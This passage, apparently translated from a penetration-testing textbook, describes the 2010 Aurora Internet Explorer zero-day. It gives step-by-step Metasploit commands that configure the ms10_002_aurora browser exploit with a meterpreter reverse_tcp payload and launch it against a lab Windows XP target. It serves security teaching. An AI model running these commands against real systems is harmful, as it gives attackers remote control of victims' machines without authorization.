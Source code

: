 让我们考虑一个著名的 Internet Explorer 漏洞。Aurora 漏洞利用在 2010 年被用于攻击像 Google、Adobe 和 Yahoo! 这样的大公司。在 Aurora 攻击发生时，Internet Explorer 存在一个 *零日漏洞*——即尚未修补的漏洞。（即使是完全更新版本的 Internet Explorer，只要用户被诱导打开恶意网页，触发漏洞，也可能被攻破。）

微软已发布针对 Internet Explorer 的补丁，但像其他安全补丁一样，用户有时会忽略更新他们的浏览器，并且安装在 Windows XP 目标系统上的 Internet Explorer 版本并没有包含防止 Aurora 漏洞的必要安全补丁。

我们将使用 Metasploit 通过攻击脆弱的浏览器来控制目标机器，方法是利用 Aurora Metasploit 模块 *exploit/windows/browser/ms10_002_aurora*，具体示例请参见 示例 10-2。

### 注意

客户端 Metasploit 模块与我们之前使用的服务器端模块基本相同，只是选项稍有不同：我们不是向网络上的远程主机发送漏洞利用代码，而是设置一个服务器并等待浏览器访问我们的页面。

示例 10-2. Internet Explorer Aurora Metasploit 模块

```
msf > **use exploit/windows/browser/ms10_002_aurora**
msf  exploit(ms10_002_aurora) > **show options**

Module options (exploit/windows/browser/ms10_002_aurora):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
  ❶SRVHOST     0.0.0.0          yes       The local host to listen on. This must be an address
                                            on the local machine or 0.0.0.0
  ❷SRVPORT     8080             yes       The local port to listen on.
  ❸SSL         false            no        Negotiate SSL for incoming connections
   SSLCert                      no        Path to a custom SSL certificate (default is randomly
                                            generated)
   SSLVersion  SSL3             no        Specify the version of SSL that should be used
                                            (accepted: SSL2, SSL3, TLS1)
  ❹URIPATH                      no        The URI to use for this exploit (default is random)

Exploit target:

   Id  Name
   --  ----
  ❺0   Automatic
```

请注意，在该模块的选项中，我们看到的是 `SRVHOST` ❶ 选项，而不是 `RHOST`。这是服务器的本地 IP 地址。默认情况下，此地址设置为 0.0.0.0，以便监听本地系统上的所有地址。监听的默认端口是 `SRVPORT` ❷ 选项，端口号为 8080。只要没有其他程序占用该端口，你可以将其更改为 80（Web 服务器的默认端口）。你甚至可以使用 SSL 连接 ❸。

如果我们设置了 `URIPATH` ❹ 选项，就可以为恶意页面指定一个特定的 URL。如果我们没有在这里设置任何内容，则会使用一个随机 URL。由于漏洞利用完全在浏览器内发生，因此我们的攻击无论 Windows 版本如何 ❺ 都能生效，只要 Internet Explorer 存在 Aurora 漏洞。

接下来，我们为我们的环境设置模块选项。该模块的有效载荷与我们之前看到的 Windows 有效载荷相同。利用浏览器的方式与利用系统中的其他程序没有区别，我们可以运行相同的 shellcode。在本示例中，我们将使用 *windows/meterpreter/reverse_tcp* 有效载荷来演示一些客户端攻击概念，具体内容请参见 示例 10-3。

### 注意

确保 apache2 Web 服务器没有在端口 80 上运行，使用命令 `service apache2 stop` 停止它。

示例 10-3. 设置选项并启动 Aurora 模块

```
msf  exploit(ms10_002_aurora) > **set SRVHOST 192.168.20.9**
SRVHOST => 192.168.20.9
msf  exploit(ms10_002_aurora) > **set SRVPORT 80**
SRVPORT => 80
msf  exploit(ms10_002_aurora) > **set URIPATH aurora**
URIPATH => **aurora**
msf  exploit(ms10_002_aurora) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf  exploit(ms10_002_aurora) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf  exploit(ms10_002_aurora) > **exploit**
[*] Exploit running as background job.

```